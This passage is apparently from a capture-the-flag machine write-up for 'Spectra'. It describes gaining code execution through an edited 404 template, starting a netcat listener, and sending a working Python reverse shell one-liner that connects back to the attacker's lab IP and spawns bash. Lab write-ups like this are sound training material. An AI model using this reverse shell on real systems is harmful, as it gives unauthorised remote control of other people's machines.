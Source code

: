 [![404_template.png](/img/spectra/404_template.png)](/img/spectra/404_template.png)

After updating the file we naviagte to it's location and confirm our RCE.

[![RCE.png](/img/spectra/RCE.png)](/img/spectra/RCE.png)

With our PoC working we can now get a reverseshell on the target machine. To do this we first set up our listener on the port we want to recieve the shell on.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We intercept the webshell request with burp send it to repeater and change the request method. Then we send this python reverse shell to the target using our tun0 ip.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",7575));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
